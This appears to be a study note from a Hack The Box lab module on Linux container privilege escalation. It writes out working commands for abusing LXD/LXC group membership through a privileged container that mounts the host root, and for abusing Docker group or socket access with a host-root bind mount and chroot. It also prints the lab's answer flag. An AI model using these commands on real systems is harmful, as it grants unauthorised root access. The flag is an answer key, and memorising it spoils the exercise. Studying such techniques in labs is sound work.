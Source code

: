 # Containers

## Linux Containers

Linux Containers (`LXC`) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them.

**Linux Daemon**

Linux Daemon ([LXD](https://github.com/lxc/lxd)) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container.

* to priv esc we have to be in lxc or lxd group

```shell-session
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

There are two options now

1. create our own container and transfer to target
2. use existing container

administrators often use templates that have little to no security

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

If we are a little lucky and there is such a container that do not have passwords on the system. it can be exploited. For this, we need to import this container as an image.

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no     | Ubuntu bionic amd64 (20221024_11:49)    | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

we can initiate the image and configure it by specifying the `security.privileged` flag and the root path for the container. **This flag disables all isolation features that allow us to act on the host**.

```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

We can start the container and log into it. In the container, we can then go to the path we specified to access the `resource` of the host system as `root`.

```
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```

## Docker

To gain root privileges through Docker, the user we are logged in with must be in the `docker` group. This allows him to use and control the Docker daemon.

**Linux Docker**

```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root. All three options allow us to work with Docker to escalate our privileges.

To see which images exist and which we can access, we can use the following command:

```shell-session
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

**Docker Socket**

A case that can also occur is when the Docker socket is writable. Usually this socket is located in `/var/run/docker.sock`. However, the location can understandably be different. Because basically, this can only be written by root or docker group. If we act as a user not in one of these two groups and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
root@ubuntu:~# ls -l /mnt

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```

**Kubernetes**

Compared to Docker, Kubernetes is a platform for running and managing containers from many container runtimes. Kubernetes (`K8s`) supports many container runtimes, including Docker. Kubernetes originally came from Google, one of the first supporters of Linux container technologies. This open-source platform automates the operation of Linux containers. Entire groups of hosts running the containers are clustered together for easy management.

## Assessment

Escalate the privileges and submit the contents of flag.txt as the answer.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>already existing template for container</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>check if the container is imported</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption><p>alpine doesn't has bash so sh will do</p></figcaption></figure>

```
~ # ls -l /mnt/root/root
total 8
-rw-r--r--    1 root     root            21 Sep 22  2022 flag.txt
drwxr-xr-x    3 root     root          4096 Oct  6  2021 snap
~ # cat /mnt/root/root/flag.txt 
HTB{C0nT41n3rs_uhhh}
```

